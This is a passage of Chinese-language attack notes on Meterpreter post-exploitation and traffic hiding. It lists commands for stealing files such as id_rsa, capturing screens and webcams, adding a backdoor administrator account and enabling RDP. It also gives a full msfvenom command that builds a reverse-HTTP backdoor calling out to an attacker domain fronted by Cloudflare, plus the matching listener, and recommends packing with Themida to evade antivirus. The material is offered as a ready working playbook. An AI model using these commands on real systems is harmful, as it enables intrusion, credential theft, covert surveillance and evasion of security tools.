 上传文件 upload [想上传的文件路径] [ 想上传到靶机的哪个地方] upload ./uEcESfQA.jpeg C:\\windows\\temp\\

下载文件 download       download id_rsa /tmp/

- IO操作

屏幕截图  screenshot 

屏幕监控  screenshare  ( 一般情况下 网络环境不好会很卡)

摄像头监控   webcam_list  /  webcam_snap  / webcam_stream

- 远程登录

添加后门用户

shell >  net user zhangsan 123456 /add

shell > net localgroup administrators zhangsan /add

meterpreter > run getgui -e  开启RDP服务

- 进程迁移

migrate [pid] 	将进程迁移到正常的进程中 （要注意权限，只能向同等权限，或低权限进程迁移）



**流量隐藏**

- cdn 

1. 用一个域名  通过 cloudflare cdn 解析到 攻击机 ip 
2. 制作后门 

```shell
msfvenom -p windows/x64/meterpreter/reverse_http lhost=fiqpgfap9ehbgahg49v124asf.fwsdwafawf324g.ml lport=2095 -f exe -o hahaha.exe
```

```txt
Cloudflare支持的HTTP端口是：


80,8080,8880,2052,2082,2086,2095


Cloudflare支持的HTTPs端口是：


443,2053,2083,2087,2096,8443
```

1. 攻击机开启监听

```shell
handler -p windows/x64/meterpreter/reverse_http -H fiqpgfap9ehbgahg49v124asf.fwsdwafawf324g.ml -P 2095
```

2. 靶机运行后门 ，上线meterpreter



**加壳免杀**

- themida， 能过火绒，腾讯管家等 ， 360 和 win defender 过不了









​	
